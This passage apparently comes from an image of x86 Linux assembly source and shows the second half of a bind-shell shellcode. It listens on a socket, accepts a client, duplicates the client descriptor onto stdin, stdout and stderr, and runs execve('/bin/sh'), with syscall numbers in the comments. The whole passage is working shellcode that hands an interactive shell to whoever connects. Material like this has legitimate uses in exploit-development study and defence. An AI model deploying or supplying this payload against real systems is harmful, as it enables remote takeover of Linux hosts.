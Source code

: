 ```nasm
       mov al, 102          ; __NR_socketcall
       mov bl, 4            ; SYS_LISTEN
       mov ecx, esp         ; pointer to the args for socketcall
       int 0x80 


; clientfd = accept(sockfd, NULL, NULL);
; int socketcall(int call, unsigned long *args);
; #define __NR_socketcall   102
; #define SYS_ACCEPT        5
       xor ebx, ebx         ; flushing registers
       mul ebx

       push edx             ; NULL
       push edx             ; NULL
       push edi             ; sockfd

       mov al, 102          ; __NR_socketcall
       mov bl, 5            ; SYS_ACCEPT
       mov ecx, esp         ; pointer to args
       int 0x80             ; returns clientfd file descriptor in eax

; int dup2(int oldfd, int newfd); duplicates a file descriptor
; dup2(clientfd, 0); 
; dup2(clientfd, 1);
; dup2(clientfd, 2);
; #define __NR_dup2 63

       mov ebx, eax         ; clientfd as first argument
       xor ecx, ecx
       mov cl, 2            ; 2 for stderr / 1 for stdout / 0 for stdin
       xor eax, eax

dup2:
       mov al, 63           ; __NR_dup2
       int 0x80
       dec ecx
       jns dup2             ; jump short if not signed 

; execve("/bin/sh", NULL, NULL);
; #define __NR_execve 11

       xor eax,eax
       push eax
       push 0x68732f2f      ; hs// - take care to the little endian representation
       push 0x6e69622f      ; nib/
       mov ebx, esp         ; pointer to command string
       mov ecx, eax
       mov edx, eax
       mov al, 11           ; __NR_execve
       int 0x80
```
